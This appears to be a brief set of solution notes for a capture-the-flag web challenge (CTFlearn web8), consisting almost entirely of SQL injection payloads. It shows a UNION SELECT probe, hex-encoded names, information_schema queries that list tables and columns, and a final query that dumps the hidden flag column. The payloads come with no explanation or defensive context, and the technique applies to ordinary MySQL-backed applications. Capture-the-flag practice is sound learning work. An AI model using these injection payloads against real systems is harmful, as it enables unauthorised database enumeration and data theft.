 https://web.ctflearn.com/web8/

0 union select 1, 0x616263, 3, 4

webeight
w0w_y0u_f0und_m3 = 7730775f7930755f6630756e645f6d33
f0und_m3

0 union select 1, (select group_concat(table_name) from information_schema.tables where table_schema = 0x7765626569676874), 3, 4

0 union select 1, (select group_concat(column_name) from information_schema.columns where table_schema = 0x7765626569676874 and table_name = 0x7730775f7930755f6630756e645f6d33), 3, 4

0 union select 1, (select group_concat(f0und_m3) from w0w_y0u_f0und_m3), 3, 4
